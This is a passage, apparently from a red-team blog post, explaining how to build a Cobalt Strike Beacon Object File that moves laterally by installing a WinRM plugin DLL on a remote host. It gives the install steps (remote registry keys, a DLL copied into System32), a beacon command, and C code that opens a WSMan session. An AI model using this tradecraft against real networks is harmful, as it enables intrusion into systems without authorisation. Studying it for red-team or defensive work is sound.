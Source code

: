 ## Lateral movement BOF
At this point, we have all we need to program a lateral movement BOF with WinRM plugins. To make it operator-friendly, the BOF can be divided in the following three main actions:

**1 - Install the plugin**
- Register the WinRM plugin. To interact at this level with WinRM, you need to use COM programming and I just couldn't make it to work. There are two possible solutions for this (guess what I chose):
	- *Proper solution*: Learn COM programming and make it work.
	- *Short-term solution + technical debt*: Enable and start `RemoteRegistry` via `SCManager` and create keys with `RegCreateKeyExW`.
- Copy over the file to the `System32` folder with `CreateFile` and `WriteFile`.
- Stop `RemoteService` and restore its configuration to default.

BOF command:
```
beacon> winrm-plugin-jump --action install --hostname app1 --dll <local-path-to-dll>
```

**2 - Call the WinRM plugin**: Now we just need to call the `Put` method of our WinRM plugin. This time, I managed to do it via COM (didn't have any other choice). Below, I describe the main calls needed to do these actions from C. As you may have guessed, I'm far from having any experience in COM programming (for now), so any constructive feedback is very welcome!

Initialize COM for the current thread and create an instance for the `WSMan` class:
```
 HRESULT hr = CoInitializeEx(NULL, COINIT_APARTMENTTHREADED);
 if (FAILED(hr)) {
     BeaconPrintf(CALLBACK_ERROR, "error CoInitializeEx, COM error: (hr=%08X)\n", hr);
     return;
 }
 DEBUG("Success CoInitializeEx\n");

 CLSIDFromString(L"{BCED617B-EC03-420b-8508-977DC7A686BD}", &CLSID_WSMAN);
 CLSIDFromString(L"{190D8637-5CD3-496d-AD24-69636BB5A3B5}", &IID_IWSMAN);

 IWSMan* pWSMan = NULL;
 hr = CoCreateInstance(CLSID_WSMAN, NULL, CLSCTX_INPROC_SERVER, IID_IWSMAN, (void**)&pWSMan);
 if (FAILED(hr)) {
     BeaconPrintf(CALLBACK_ERROR, "error CoCreateInstance, COM error: %ld)\n", hr);
     goto COMUninitialize;
 }
 DEBUG("Success CoCreateInstance\n");
```

Using the `CreateSession` method from the object `pWSMan` we connect to the remote server:
```
 IDispatch* pSessionDispatch = NULL;
 swprintf_s(remoteComputerNameWsMan, MAX_PATH, L"http://%s:5985/wsman", remoteComputerName);
 BSTR connectionUrl = SysAllocString(remoteComputerNameWsMan);
 hr = pWSMan->CreateSession(connectionUrl, NULL, NULL, &pSessionDispatch);
 if (FAILED(hr)) {
     BeaconPrintf(CALLBACK_ERROR, "error CreateSession, COM error: (hr=%08X)\n", hr);
     goto COMIWSManRelease;
 }
 DEBUG("Success CreateSession\n");
```
